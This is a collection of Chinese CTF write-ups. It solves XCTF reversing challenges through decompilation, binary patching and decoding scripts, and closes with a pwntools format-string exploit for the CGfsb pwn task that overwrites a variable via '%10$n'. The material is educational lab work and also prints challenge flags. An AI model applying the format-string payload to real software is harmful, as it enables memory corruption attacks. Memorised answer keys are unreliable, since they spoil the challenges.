





[TOC]

## xctf_NJUPT CTF 2017_maze

ida分析后

发现了'Oo.0'这几个字符。。每个if最终进入label15

```c
LABEL_15:
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  const char *v3; // rsi
  signed __int64 v4; // rbx
  signed int v5; // eax
  char v6; // bp
  char v7; // al
  const char *v8; // rdi
  __int64 v10; // [rsp+0h] [rbp-28h]

  v10 = 0LL;
  puts("Input flag:");
  scanf("%s", &s1, 0LL);
  if ( strlen(&s1) != 24 || strncmp(&s1, "nctf{", 5uLL) || *(&byte_6010BF + 24) != 125 )// 匹配nctf{***} 长度为24
  {
LABEL_22:
    puts("Wrong flag!");
    exit(-1);
  }
  v4 = 5LL;
  if ( strlen(&s1) - 1 > 5 )
  {
    while ( 1 )
    {
      v5 = *(&s1 + v4);                         // 第1个字符
      v6 = 0;
      if ( v5 > 78 )
    ##   {
        v5 = v5;
        if ( v5 == 'O' ) // 显示的79按R显示出字符。
        {
          v7 = sub_400650(&v10 + 1);
          goto LABEL_14;
        }
        if ( v5 == 'o' )
        {
          v7 = sub_400660(&v10 + 1);
          goto LABEL_14;
        }
      }
      else
      {
        v5 = v5;
        if ( v5 == '.' )
        {
          v7 = sub_400670(&v10);
          goto LABEL_14;
        }
        if ( v5 == '0' )
        {
          v7 = sub_400680(&v10, v3);
LABEL_14:
          v6 = v7;
          goto LABEL_15;
        }
      }
LABEL_15:
      v3 = HIDWORD(v10);
      if ( !sub_400690(asc_601060, SHIDWORD(v10), v10) )
        goto LABEL_22;
      if ( ++v4 >= strlen(&s1) - 1 )
      {
        if ( v6 )
          break;
LABEL_20:
        v8 = "Wrong flag!";
        goto LABEL_21;
      }
    }
  }
  if ( asc_601060[8 * v10 + SHIDWORD(v10)] != 35 )
    goto LABEL_20;
  v8 = "Congratulations!";
LABEL_21:
  puts(v8);
  return 0LL;
}
```

```c
__int64 __fastcall sub_400690(__int64 a1, int a2, int a3)
{
  __int64 result; // rax

  result = *(a1 + a2 + 8LL * a3);
  LOBYTE(result) = result == 32 || result == 35;
  return result;
}
```
a1 = `'  *******   *  **** * ****  * ***  *#  *** *** ***     *********'`

8LL*a3 发现是个二维数组，v3行。v2列。

SHIDWORD(v10)=>a2, 进入下一结点 , v10=>a3,

得知这点，从上面分析可知：

就将四个函数点进去就可以判断方向了。相对应，其他方向，举例

```c
        if ( v5 == 'O' )
        {
          v7 = sub_400650(&v10 + 1); // 行的下一位，传的是列？
          goto LABEL_14;
        }

=======>
bool __fastcall sub_400650(_DWORD *a1)
{
  int v1; // eax

  v1 = (*a1)--; // 说明'O' => sub_400650 => 列值-1, 那是左
  return v1 > 0;
}
```
同样分析其他， O左 o右 . 上 0下

a1是迷宫。前往#号

```
  ******
*   *  *
*** * **
**  * **
*  *#  *
** *** *
**     *
********
```

最后得到 flag: nctf{o0oo00O000oooo..OO}

## xctf_game
### wp

game

题目来源： ZSCTF

题目描述：菜鸡最近迷上了玩游戏，但它总是赢不了，你可以帮他获胜吗

#### 方法1 使用od爆破

载入od中，插件-中文搜索-智能搜索，ctrl+F找flag，"done the flag is"。

往上找到push ebp，从下面的跳转来自，向回跳 。

看到地址下方显示，调用来自
```
0031E940=a0f2af98.0031E940
本地调用来自 0031F66C -------右击这里。跳。

```
发现一堆判断，是0到8的。到最上面的判断。。


```asm
0031F5C9  |.  B8 01000000   |mov eax,0x1
0031F5CE  |.  6BC8 00       |imul ecx,eax,0x0
0031F5D1  |.  0FB691 282E3F>|movzx edx,byte ptr ds:[ecx+0x3F2E28]
0031F5D8  |.  83FA 01       |cmp edx,0x1         ; 判断1
0031F5DB     /0F85 90000000 jnz a0f2af98.0031F671 ; 4. 点击这里，按空格 从这里改一下，跳到0031F66C关键call，运行即可得flag
0031F5E1  |. |B8 01000000   |mov eax,0x1
0031F5E6  |. |c1e0 00       |shl eax,0x0
0031F5E9  |. |0FB688 282E3F>|movzx ecx,byte ptr ds:[eax+0x3F2E28]
0031F5F0  |. |83F9 01       |cmp ecx,0x1           
0031F5F3  |. |75 7C         |jnz short a0f2af98.0031F671
0031F5F5  |. |B8 01000000   |mov eax,0x1
0031F5FA  |. |D1E0          |shl eax,1
0031F5FC  |. |0FB688 282E3F>|movzx ecx,byte ptr ds:[eax+0x3F2E28]
0031F603  |. |83F9 01       |cmp ecx,0x1
0031F606  |. |75 69         |jnz short a0f2af98.0031F671
0031F608  |. |B8 01000000   |mov eax,0x1
0031F60D  |. |6BC8 03       |imul ecx,eax,0x3
0031F610  |. |0FB691 282E3F>|movzx edx,byte ptr ds:[ecx+0x3F2E28]
0031F617  |. |83FA 01       |cmp edx,0x1
0031F61A  |. |75 55         |jnz short a0f2af98.0031F671
0031F61C  |. |B8 01000000   |mov eax,0x1
0031F621  |. |C1E0 02       |shl eax,0x2
0031F624  |. |0FB688 282E3F>|movzx ecx,byte ptr ds:[eax+0x3F2E28]
0031F62B  |. |83F9 01       |cmp ecx,0x1
0031F62E  |. |75 41         |jnz short a0f2af98.0031F671
0031F630  |. |B8 01000000   |mov eax,0x1
0031F635  |. |6BC8 05       |imul ecx,eax,0x5
0031F638  |. |0FB691 282E3F>|movzx edx,byte ptr ds:[ecx+0x3F2E28]
0031F63F  |. |83FA 01       |cmp edx,0x1
0031F642  |. |75 2D         |jnz short a0f2af98.0031F671
0031F644  |. |B8 01000000   |mov eax,0x1
0031F649  |. |6BC8 06       |imul ecx,eax,0x6       ; 3. 判断6
0031F64C  |. |0FB691 282E3F>|movzx edx,byte ptr ds:[ecx+0x3F2E28]
0031F653  |. |83FA 01       |cmp edx,0x1
0031F656  |. |75 19         |jnz short a0f2af98.0031F671
0031F658  |. |B8 01000000   |mov eax,0x1
0031F65D  |. |6BC8 07       |imul ecx,eax,0x7         ; 2. 判断7
0031F660  |. |0FB691 282E3F>|movzx edx,byte ptr ds:[ecx+0x3F2E28]
0031F667  |. |83FA 01       |cmp edx,0x1
0031F66A  |. |75 05         |jnz short a0f2af98.0031F671
0031F66C  |. \E8 4384FFFF   |call a0f2af98.00317AB4   ; 1. 现在在这里，输出flag call的，向上分析。
0031F671  |>^ E9 85FEFFFF   \jmp a0f2af98.0031F4FB
```

#### 方法2 静态分析解码

IDA, Shift+F12 , Ctrl+F, flag,找到 done the flag is 。双击跳入

`.rdata:0050B0F0 aDoneTheFlagIs  db 'done!!! the flag is ',0`

光标移到 aDoneTheFlagIs按X，Enter。跳到了关键处。。。

前面定义了100多个变量。后面是关键语句。
```c
  for ( i = 0; i < 56; ++i )
  {
    *(&v2 + i) ^= *(&v59 + i); // *(&v59 + i) --- v59地址取第i个字符 和  v2开始的第i个字符异或
    *(&v2 + i) ^= 0x13u; // v2开始的第i个字符 和 0x13 异或
  }
```

```python
lst1 = [123, 32, 18, 98, 119, 108, 65, 41, 124, 80, 125, 38, 124, 111, 74, 49, 83, 108, 94, 108, 84, 6, 96, 83, 44, 121, 104, 110, 32, 95, 117, 101, 99, 123, 127, 119, 96, 48, 107, 71, 92, 29, 81, 107, 90, 85, 64, 12, 43, 76, 86, 13, 114, 1, 117, 126, 0]
lst2 = [18,64,98,5,2,4,6,3,6,48,49,65,32,12,48,65,31,78,62,32,49,32,1,57,96,3,21,9,4,62,3,5,4,1,2,3,44,65,78,32,16,97,54,16,44,52,32,64,89,45,32,65,15,34,18,16,0]

print(len(lst1))
print(len(lst2))

for i in range(56):
    lst1[i] ^= lst2[i]
    lst1[i] ^= 0x13

print(''.join(chr(x) for x in lst1))

### zsctf{T9is_tOpic_1s_v5ry_int7resting_b6t_others_are_n0t}
```

#### 方法3 ida keypatch

1.伪代码窗口中 选中要使用Patch的位置，

    1.1 直接Ctrl+Alt+K 或
    1.2 按Tab, 进入反汇编窗口,  菜单 Edit-KeyPatch (Ctrl+Alt+K)

2. 修改，菜单 Edit-"Patch Program" - Apply Patches to input file.

我们在一个不重要的call的位置，直接调重要call

sub458054是输出一些`'----------'`，字符串的，我们这里Ctrl+Alt+K直接改成调 457ab4，就是输出flag的。

然后 菜单  Edit-"Patch Program" - Apply Patches to input file.



## xctf_nostring_attacted

### 方法1
Exeinfo 看了是elf文件，没壳。 扔IDA找到关键函数。

```c
wchar_t *__cdecl decrypt(wchar_t *key1, wchar_t *key2)
{
  size_t key1_len2; // eax
  signed int j; // [esp+1Ch] [ebp-1Ch]
  signed int i; // [esp+20h] [ebp-18h]
  signed int key1_len; // [esp+24h] [ebp-14h]
  signed int key2_len; // [esp+28h] [ebp-10h]
  wchar_t *dest; // [esp+2Ch] [ebp-Ch]

  key1_len = wcslen(key1);
  key2_len = wcslen(key2);
  key1_len2 = wcslen(key1);
  dest = (wchar_t *)malloc(key1_len2 + 1);
  wcscpy(dest, key1);
  while ( j < key1_len )
  {
    for ( i = 0; i < key2_len && j < key1_len; ++i )
      dest[j++] -= key2[i];
  }
  return dest; // 光标在这里看tab
}
```

```asm
.text:080486F7 loc_80486F7:                            ; CODE XREF: decrypt+55↑j
.text:080486F7                                         ; decrypt+95↑j
.text:080486F7                 mov     eax, [ebp+j]
.text:080486FA                 cmp     eax, [ebp+key1_len]
.text:080486FD                 jl      short loc_80486AF
.text:080486FF                 mov     eax, [ebp+dest] ; ------ 将结果保存到eax了。看这里解决 080486FF
.text:08048702                 add     esp, 34h
.text:08048705                 pop     ebx
.text:08048706                 pop     ebp
.text:08048707                 retn
```
分析起来麻烦，直接gdb载入吧。

下断点

    b *0x080486FF 
    # 运行
    r 
    # info register
    i r
    # x/5sw $eax：查看eax开始的4个8字节内容（b：单字节，h：双字节，w：四字节，g：八字节；x：十六进制，s：字符串输出，i：反汇编，c：单字符）
    # 代码里都是用w的，所以用w看正好。 4字节
    x/5sw $eax

    # x/200w $eax 看也行。需要转换成char

### 方法2 配合IDA python脚本

IDA 分析到 `decrypt(&s, &dword_8048A90);` 

```c
wchar_t *__cdecl decrypt(wchar_t *s, wchar_t *a2)
{
  size_t tmp_len1; // eax
  signed int j; // [esp+1Ch] [ebp-1Ch]
  signed int i; // [esp+20h] [ebp-18h]
  signed int len1; // [esp+24h] [ebp-14h]
  signed int len2; // [esp+28h] [ebp-10h]
  wchar_t *dest; // [esp+2Ch] [ebp-Ch]

  len1 = wcslen(s);
  len2 = wcslen(a2);
  tmp_len1 = wcslen(s);
  dest = (wchar_t *)malloc(tmp_len1 + 1);
  wcscpy(dest, s);
  while ( j < len1 )
  {
    for ( i = 0; i < len2 && j < len1; ++i )
      dest[j++] -= a2[i];
  }
  return dest;
}
```
双击s，进入按*键 长度为6

双击dword_8048A90，进入按*键 长度为39

```python
addr=0x08048A90
arr=[]
for i in range(6):
    arr.append(Dword(addr+4*i))
print(arr)
## [5121L, 5122L, 5123L, 5124L, 5125L, 0L]

addr=0x08048AA8
arr=[]
for i in range(39): # 数组的个数
    arr.append(Dword(addr+4*i))
print(arr)
## [5178L, 5174L, 5175L, 5179L, 5248L, 5242L, 5233L, 5240L, 5219L, 5222L, 5235L, 5223L, 5218L, 5221L, 5235L, 5216L, 5227L, 5233L, 5240L, 5226L, 5235L, 5232L, 5220L, 5240L, 5230L, 5232L, 5232L, 5220L, 5232L, 5220L, 5230L, 5243L, 5238L, 5240L, 5226L, 5235L, 5243L, 5248L, 0L]
```

字串末尾会以0结尾。去掉

```python
key = [5121, 5122, 5123, 5124, 5125]
dest = [5178, 5174, 5175, 5179, 5248, 5242, 5233, 5240, 5219, 5222, 5235, 5223, 5218, 5221, 5235, 5216, 5227, 5233, 5240, 5226, 5235, 5232, 5220, 5240, 5230, 5232, 5232, 5220, 5232, 5220, 5230, 5243, 5238, 5240, 5226, 5235, 5243, 5248]
i = j = 0
while i < len(dest):
    j = 0
    while i < len(dest) and j < len(key):
        dest[i] -= key[j]
        i += 1
        j += 1

print(''.join(chr(x) for x in dest))
```

### 方法3 IDA远程调试

Windows 下的 IDA     

1. 在 IDA 的安装目录/dbgsrc/找到 linux_server 和 linux_serverx64 拷贝到 linux 虚拟机中

2. 在 linux 中运行 linux_server => ./linux_server

3. Debugger -- Attach -- Remote Linux debbuger

4. 配置客户端调试选项




路径默认是 linux_server 的位置, 放在同文件夹下可直接使用文件名。 否则使用全路径名。 / 开头

比如, /mnt/hgfs/vmware/dbg/runthis 或直接使用 runthis

配置好调试的服务端后，接下来开始配置客户端IDA，正常启动IDA打开【Debugger】-【Run】-【Remote Linux debugger】来设置调试选项




在s2后下断点，运行程序。

__4.1 方式1 用watch view看__

debugger-debugger window-  watch view, 添加s2到watch view。



__4.2 方式2 使用python脚本__

在s2处按tab，可知结果放到eax中。在断点处Shift+F2，Language 选Python。执行Python脚本

```python
addr = 0x09293820
ans = ''
for tempAddr in range(addr ,addr+50*4, 4):
    ans += get_bytes(tempAddr,1)
print(ans)
```


结果在output 窗口。

## pwn

### CGfsb
ida载入，发现要pwnme == 8 才行。字符串格式化漏洞


exp
```python
from pwn import *
context.log_level = 'debug'
conn = process('./e41a0f684d0e497f87bb309f91737e4d')
# conn = remote("220.249.52.133",56225)
pwnme = 0x0804A068
payload1 = 'aaaa'
payload2 = flat(p32(pwnme), 'a'*4 ,'%10$n')  #pwnme地址占4个字节，所以后面需要打印4个a
conn.recvuntil('please tell me your name:')
conn.sendline(payload1)
# gdb.attach(conn)
conn.recvuntil('leave your message please:') 
conn.sendline(payload2)
conn.interactive()
print(conn.recvall())
```